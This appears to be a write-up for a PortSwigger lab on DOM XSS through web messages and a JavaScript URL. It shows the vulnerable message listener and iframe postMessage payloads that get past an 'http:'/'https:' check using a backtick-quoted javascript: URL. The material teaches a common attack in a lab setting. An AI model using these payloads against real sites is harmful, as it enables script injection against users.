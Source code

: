 
# DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. 

To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

- https://portswigger.net/web-security/cross-site-scripting/dom-based

- https://stackoverflow.com/questions/24078332/is-it-secure-to-use-window-location-href-directly-without-validation

---------------------------------------------

Generated link: https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/


Vulnerable code:



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

If the payload contains “http:” or “https:”, it will redirect to that page.


Our payload in the exploit server:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('https://as.com','*')" style="width:100%;height:100%">
```

When we click “View”, it redirects to as.com:



![Pobre Luis Enrique](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/2.png)

We can execute Javascript code with javascript:alert(1). As there are already nested quotes and double quotes we can use the character “`” to create an alert message with the previous url, so the payload wil still have “https:”:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/3.png)

If we change the payload to print the page:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/4.png)
